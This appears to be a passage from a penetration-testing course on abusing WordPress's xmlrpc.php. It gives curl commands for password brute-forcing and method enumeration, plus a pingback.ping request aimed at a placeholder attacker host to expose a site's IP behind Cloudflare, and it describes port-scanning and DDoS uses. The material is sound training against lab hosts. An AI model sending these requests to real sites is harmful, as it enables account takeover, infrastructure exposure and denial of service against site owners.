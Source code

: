 ﻿It is important to note that`xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed,`xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Let us borrow an example from our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module.

Suppose we are assessing the security of a WordPress instance residing in _http://blog.inlanefreight.com_. Through enumeration activities, we identified a valid username,`admin`, and that`xmlrpc.php` is enabled. Identifying if`xmlrpc.php` is enabled is as easy as requesting`xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through`xmlrpc.php`, as follows.


```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <params>
 <param>
 <value>
 <array><data>
 <value><struct>
 <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
 <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
 <member><name>blogid</name><value><string>1</string></value></member>
 <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
 <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
 </value>
 </param>
 </params>
</methodResponse>
```

Above, you can see a successful login attempt through`xmlrpc.php`.

We will receive a`403 faultCode` error if the credentials are not valid.

```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>WRONG-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <fault>
 <value>
 <struct>
 <member>
 <name>faultCode</name>
 <value><int>403</int></value>
 </member>
 <member>
 <name>faultString</name>
 <value><string>Incorrect username or password.</string></value>
 </member>
 </struct>
 </value>
 </fault>
</methodResponse>
```

You may ask how we identified the correct method to call (_system.listMethods_). We did that by going through the well-documented [Wordpress code](https://codex.wordpress.org/XML-RPC/system.listMethods) and interacting with`xmlrpc.php`, as follows.

```shell-session
smoothment@htb[/htb]$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <params>
 <param>
 <value>
 <array><data>
 <value><string>system.multicall</string></value>
 <value><string>system.listMethods</string></value>
 <value><string>system.getCapabilities</string></value>
 <value><string>demo.addTwoNumbers</string></value>
 <value><string>demo.sayHello</string></value>
 <value><string>pingback.extensions.getPingbacks</string></value>
 <value><string>pingback.ping</string></value>
 <value><string>mt.publishPost</string></value>
 <value><string>mt.getTrackbackPings</string></value>
 <value><string>mt.supportedTextFilters</string></value>
 <value><string>mt.supportedMethods</string></value>
 <value><string>mt.setPostCategories</string></value>
 <value><string>mt.getPostCategories</string></value>
 <value><string>mt.getRecentPostTitles</string></value>
 <value><string>mt.getCategoryList</string></value>
 <value><string>metaWeblog.getUsersBlogs</string></value>
 <value><string>metaWeblog.deletePost</string></value>
 <value><string>metaWeblog.newMediaObject</string></value>
 <value><string>metaWeblog.getCategories</string></value>
 <value><string>metaWeblog.getRecentPosts</string></value>
 <value><string>metaWeblog.getPost</string></value>
 <value><string>metaWeblog.editPost</string></value>
 <value><string>metaWeblog.newPost</string></value>
 <value><string>blogger.deletePost</string></value>
 <value><string>blogger.editPost</string></value>
 <value><string>blogger.newPost</string></value>
 <value><string>blogger.getRecentPosts</string></value>
 <value><string>blogger.getPost</string></value>
 <value><string>blogger.getUserInfo</string></value>
 <value><string>blogger.getUsersBlogs</string></value>
 <value><string>wp.restoreRevision</string></value>
 <value><string>wp.getRevisions</string></value>
 <value><string>wp.getPostTypes</string></value>
 <value><string>wp.getPostType</string></value>
 <value><string>wp.getPostFormats</string></value>
 <value><string>wp.getMediaLibrary</string></value>
 <value><string>wp.getMediaItem</string></value>
 <value><string>wp.getCommentStatusList</string></value>
 <value><string>wp.newComment</string></value>
 <value><string>wp.editComment</string></value>
 <value><string>wp.deleteComment</string></value>
 <value><string>wp.getComments</string></value>
 <value><string>wp.getComment</string></value>
 <value><string>wp.setOptions</string></value>
 <value><string>wp.getOptions</string></value>
 <value><string>wp.getPageTemplates</string></value>
 <value><string>wp.getPageStatusList</string></value>
 <value><string>wp.getPostStatusList</string></value>
 <value><string>wp.getCommentCount</string></value>
 <value><string>wp.deleteFile</string></value>
 <value><string>wp.uploadFile</string></value>
 <value><string>wp.suggestCategories</string></value>
 <value><string>wp.deleteCategory</string></value>
 <value><string>wp.newCategory</string></value>
 <value><string>wp.getTags</string></value>
 <value><string>wp.getCategories</string></value>
 <value><string>wp.getAuthors</string></value>
 <value><string>wp.getPageList</string></value>
 <value><string>wp.editPage</string></value>
 <value><string>wp.deletePage</string></value>
 <value><string>wp.newPage</string></value>
 <value><string>wp.getPages</string></value>
 <value><string>wp.getPage</string></value>
 <value><string>wp.editProfile</string></value>
 <value><string>wp.getProfile</string></value>
 <value><string>wp.getUsers</string></value>
 <value><string>wp.getUser</string></value>
 <value><string>wp.getTaxonomies</string></value>
 <value><string>wp.getTaxonomy</string></value>
 <value><string>wp.getTerms</string></value>
 <value><string>wp.getTerm</string></value>
 <value><string>wp.deleteTerm</string></value>
 <value><string>wp.editTerm</string></value>
 <value><string>wp.newTerm</string></value>
 <value><string>wp.getPosts</string></value>
 <value><string>wp.getPost</string></value>
 <value><string>wp.deletePost</string></value>
 <value><string>wp.editPost</string></value>
 <value><string>wp.newPost</string></value>
 <value><string>wp.getUsersBlogs</string></value>
</data></array>
 </value>
 </param>
 </params>
</methodResponse>
```

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included.`pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a [pingback](https://wordpress.com/support/comments/pingbacks/) is a special type of comment that's created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

- IP Disclosure - An attacker can call the`pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
- Cross-Site Port Attack (XSPA) - An attacker can call the`pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
- Distributed Denial of Service Attack (DDoS) - An attacker can call the`pingback.ping` method on numerous WordPress instances against a single target.

Find below how an IP Disclosure attack could be mounted if`xmlrpc.php` is enabled and the`pingback.ping` method is available. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in _http://blog.inlanefreight.com_ is protected by Cloudflare. As we already identified, it also has`xmlrpc.php` enabled, and the`pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from _http://blog.inlanefreight.com_, verifying the pingback and exposing _http://blog.inlanefreight.com_'s public IP address.

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```

If you have access to our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module, please note that you won't be able to exploit the availability of the`pingback.ping` method against the related section's target, due to egress restrictions.

